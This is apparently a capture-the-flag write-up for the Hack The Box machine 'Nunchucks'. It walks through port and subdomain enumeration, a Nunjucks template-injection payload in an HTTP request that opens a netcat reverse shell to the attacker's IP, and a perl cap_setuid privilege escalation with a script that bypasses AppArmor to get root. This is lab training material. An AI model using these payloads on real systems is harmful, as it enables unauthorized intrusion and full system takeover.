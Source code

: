 ![image](https://user-images.githubusercontent.com/105310322/196730660-c5ef0194-cbad-4040-9a86-2d7f0c361d86.png)


### Tools: 

### Vulnerabilities: 

Nmap reveals 3 ports open, SSH, HTTP, and HTTPS. They give us the domain so lets add that to our hosts file.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-18 15:12 CDT
Nmap scan report for 10.129.95.252
Host is up (0.079s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.49 seconds
```
Feroxbuster gives a few things interesting things like the login page.

```console
└─$ feroxbuster -u https://nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git,pdf -q -k
WLD      GET        3l        6w       45c Got 200 for https://nunchucks.htb/efd7c3c056164989a56670de5c928281 (url length: 32)
WLD      GET         -         -         - Wildcard response is static; auto-filtering 45 responses; toggle this behavior by using --dont-filter
WLD      GET        3l        6w       45c Got 200 for https://nunchucks.htb/5de72f6e1ba949ebb8cfd289964c9f0a464042bc5b6440818c6b4b702744caf88948eb8241f64d4086555180d4b75b7b (url length: 96)
200      GET      546l     2271w    30589c https://nunchucks.htb/
200      GET      183l      662w     9172c https://nunchucks.htb/login
301      GET       10l       16w      179c https://nunchucks.htb/assets => /assets/
301      GET       10l       16w      193c https://nunchucks.htb/assets/images => /assets/images/
301      GET       10l       16w      185c https://nunchucks.htb/assets/js => /assets/js/
301      GET       10l       16w      187c https://nunchucks.htb/assets/css => /assets/css/
200      GET      250l     1863w    19134c https://nunchucks.htb/privacy
200      GET      187l      683w     9488c https://nunchucks.htb/signup
200      GET      245l     1737w    17753c https://nunchucks.htb/terms
Scanning: https://nunchucks.htb
Scanning: https://nunchucks.htb/
Scanning: https://nunchucks.htb/assets
Scanning: https://nunchucks.htb/assets/images
Scanning: https://nunchucks.htb/assets/js
Scanning: https://nunchucks.htb/assets/css
```
Checking out the terms and privacy pages we get a bunch of hints about a possible template injection. Looking more into it the firefox extension wappalyzer tells me NodeJS is running. Also looking up some SSTI on Hacktricks says that Nunjucks is running on SSTI! The fact that the box's name was Nunchucks means there is a really good chance this is the attack vector. However I was not able to find any vulnerabilties on this webpage. So lets fuzz for some more.












Running wfuzz we are finally able to locate another domain!

```console
└─$ wfuzz -c -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 2271 https://nunchucks.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"                                                                                     
 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 5.600609
Processed Requests: 197
Filtered Requests: 196
Requests/sec.: 35.17474
```
On this webpage we have a single input field and if we test out an SSTI it takes it!

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

The following is the payload I used in burp suite after capturing the store.nunchucks.htb input button.

```
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2Zc7PPzLntxukEPB3DAKztkS
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"{{7*7}}"}
```
Now that we have finally confirmed that it is an SSTI we can form the rest of the payload. Hacktricks gave the basics of the command but in order for this payload to work I had to use \ to escape the "", otherwise the payload wouldnt work and URL encoding had no effect.

Set up your listener and send the reverse shell payload.

Note: Another version of this would be to send it commands and create your own SSH keys on the target to login. Since the SSH Port is open.

```
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2Zc7PPzLntxukEPB3DAKztkS
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 150
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.16 1234 >/tmp/f')\")()}}"}
```

We get a shell, the flag, and upgrade to an interactive shell!

```console
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.252] 59850
sh: 0: can't access tty; job control turned off
$ id
uid=1000(david) gid=1000(david) groups=1000(david)
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ 
```
```console
david@nunchucks:~$ cat user.txt
cat user.txt
3c82****************************
```

In my enumeration I found that perl was vulnerable from its capabilities with cap_setuid. However nothing I did was working.

https://gtfobins.github.io/gtfobins/perl/





It turns out that it had apparmor enabled as can be seen by this file. Basically we could run ```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'``` but it would not execute the shell. However changing the command to whoami or id showed that it was running as root.

```console
david@nunchucks:/tmp$ cat /etc/apparmor.d/usr.bin.perl
cat /etc/apparmor.d/usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```
With a quick google search I came to this page which gives the answer. By putting the exploit into a script we can bypass the apparmor and gain root.

http://0xma.com/hacking/bypass_apparmor_with_perl_script.html

Your script should look something like this.

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```
After running it we can confirm our id is root and get the flag!

```console
david@nunchucks:/tmp$ ./rogue.pl
./rogue.pl
# id
id
uid=0(root) gid=1000(david) groups=1000(david)
# cat /root/root.txt
cat /root/root.txt
5a9*****************************
# 
```
Congrats!
